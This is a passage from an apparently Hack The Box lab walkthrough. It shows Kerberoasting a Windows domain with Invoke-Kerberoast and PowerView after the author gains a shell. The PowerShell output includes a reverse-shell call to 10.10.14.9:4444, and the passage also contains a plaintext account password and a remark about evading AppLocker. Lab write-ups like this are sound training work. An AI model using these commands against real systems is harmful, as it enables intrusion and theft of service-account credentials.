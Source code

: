 <figure><img src="../../../.gitbook/assets/image (3860).png" alt=""><figcaption></figcaption></figure>

Great! Now we have a fully functioning shell.&#x20;

### Invoke-Kerberoast

Since we have a full shell, we don't actually need Rubeus anymore as there are plenty of Kerberoasting Powershell scripts that (hopefully) don't trigger AppLocker.&#x20;

However, trying to run this gives me a weird error:

{% code overflow="wrap" %}
```
PS C:\Users\amanda\Documents>. .\Invoke-Kerberoast.ps1
PS C:\Users\amanda\Documents> Invoke-Kerberoast
PS C:\Users\amanda\Documents> Invoke-PowerShellTcp : The variable cannot be validated because the value  is not a valid value fo
r the SPN variable.

At C:\Users\amanda\Documents\shell.ps1:127 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.14.9 -Port 4444
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorException
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorException,Invoke-PowerShell 
   Tcp
```
{% endcode %}

We can follow the PowerSploit documentation to resolve this.&#x20;

```powershell
$SecPassword = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\amanda', $SecPassword)
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -Credential $Cred -Verbose | fl
```

The above still doesn't work because it complains that we don't have the`Invoke-UserImpersonation` cmdlet imported. This means we have to import `PowerView.ps1` as well.

<pre class="language-powershell"><code class="lang-powershell">. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\amanda', $SecPassword)
<strong>Invoke-UserImpersonation -Credential $Cred
</strong>Invoke-Kerberoast
</code></pre>
